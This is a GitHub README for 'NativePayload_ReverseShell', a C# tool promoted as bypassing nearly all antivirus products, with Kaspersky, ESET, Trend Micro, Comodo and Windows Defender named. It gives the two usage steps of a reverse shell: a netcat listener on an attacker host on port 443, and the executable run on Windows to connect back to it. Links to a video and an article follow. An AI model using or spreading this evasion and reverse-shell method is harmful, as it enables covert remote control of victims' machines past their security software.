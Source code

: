 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

Note: it is "kind of Reverse shell", Can You Guess "Since When" : This Code Worked & Still Working... ? 

    //// Step 1 (Linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by Step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be

Article : https://www.linkedin.com/pulse/bypassing-avs-c-managed-code-reverse-shell-damon-mohammadbagher/


<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_ReverseShell"/></a></p>

